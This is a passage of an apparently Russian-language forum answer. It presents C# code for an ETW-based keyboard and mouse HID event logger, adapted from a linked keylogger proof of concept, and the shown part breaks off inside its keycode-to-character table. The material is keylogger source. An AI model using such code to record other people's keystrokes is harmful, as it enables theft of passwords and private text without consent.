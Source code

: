 <p>Пример кода отслеживания HID-пакетов для клавиатуры есть <a href="https://github.com/CyberPoint/Ruxcon2016ETW/tree/master/KeyloggerPOC" rel="nofollow noreferrer">здесь</a>. Модифицируем его, так чтобы можно было сохранять события в файл и добавим обработку мышиных пакетов, получаем что-то такое:</p>

<pre><code>using System;
using System.IO;
using System.Linq;
using System.Collections.Generic;
using Microsoft.Diagnostics.Tracing;
using Microsoft.Diagnostics.Tracing.Session;
using System.Threading;    

namespace EtwHidlogger
{
    public interface IPrint
    {
        void Print(string text);
    }

    public class KeyMap
    {
        public static string[] GetKey(int value)
        {
            switch (value)
            {                
                case 0x00: return new string[1]; // unused
                case 0x04: return new[] { "a", "A" };
                case 0x05: return new[] { "b", "B" };
                case 0x06: return new[] { "c", "C" };
                case 0x07: return new[] { "d", "D" };
                case 0x08: return new[] { "e", "E" };
                case 0x09: return new[] { "f", "F" };
                case 0x0A: return new[] { "g", "G" };
                case 0x0B: return new[] { "h", "H" };
                case 0x0C: return new[] { "i", "I" };
                case 0x0D: return new[] { "j", "J" };
                case 0x0E: return new[] { "k", "K" };
                case 0x0F: return new[] { "l", "L" };
                case 0x10: return new[] { "m", "M" };
                case 0x11: return new[] { "n", "N" };
                case 0x12: return new[] { "o", "O" };
                case 0x13: return new[] { "p", "P" };
                case 0x14: return new[] { "q", "Q" };
                case 0x15: return new[] { "r", "R" };
                case 0x16: return new[] { "s", "S" };
                case 0x17: return new[] { "t", "T" };
                case 0x18: return new[] { "u", "U" };
                case 0x19: return new[] { "v", "V" };
                case 0x1A: return new[] { "w", "W" };
                case 0x1B: return new[] { "x", "X" };
                case 0x1C: return new[] { "y", "Y" };
                case 0x1D: return new[] { "z", "Z" };
                case 0x1E: return new[] { "1", "!" };
                case 0x1F: return new[] { "2", "@" };
                case 0x20: return new[] { "3", "#" };
                case 0x21: return new[] { "4", "$" };
                case 0x22: return new[] { "5", "%" };
                case 0x23: return new[] { "6", "^" };
                case 0x24: return new[] { "7", "&amp;" };
                case 0x25: return new[] { "8", "*" };
                case 0x26: return new[] { "9", "(" };
                case 0x27: return new[] { "0", ")" };
                case 0x28: return new[] { "[RET]" };
                case 0x29: return new[] { "[ESC]" };